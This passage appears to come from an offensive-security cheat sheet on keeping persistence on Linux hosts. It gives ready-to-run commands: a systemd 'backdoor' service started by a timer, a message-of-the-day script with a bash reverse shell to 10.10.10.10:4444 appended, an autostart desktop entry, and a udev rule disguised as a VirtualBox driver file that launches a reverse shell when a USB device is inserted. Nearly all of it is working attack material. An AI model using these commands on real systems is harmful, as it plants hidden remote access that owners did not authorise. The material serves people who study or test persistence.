 Create a Corresponding Service Unit File: `/etc/systemd/system/backdoor.service`

```ini
[Unit]
Description=Backdoor Service

[Service]
Type=simple
ExecStart=/bin/bash /opt/backdoor/backdoor.sh
```

Enable and Start the Timer

```ps1
sudo systemctl enable shout.timer
sudo systemctl start shout.timer
```

## Message of the Day

Edit `/etc/update-motd.d/00-header` file

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"' >> /etc/update-motd.d/00-header
```

## User Startup File

The `~/.config/autostart/` directory is used in Linux desktop environments (like GNOME, KDE, XFCE) to automatically start applications when a user logs in.

Each startup program is defined using a .desktop file placed in this directory.

```powershell
[Desktop Entry]
Type=Application
Name=Custom Script
Exec=/home/user/scripts/startup.sh
Hidden=false
NoDisplay=false
X-GNOME-Autostart-enabled=true
```

## Udev Rule

Udev is the device manager for the Linux kernel, responsible for dynamically handling device events. It can be exploited for persistence by executing a script whenever a specific device is plugged in.

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

After saving the rule file, reload the udev rules:

```ps1
sudo udevadm control --reload-rules
sudo udevadm trigger
```

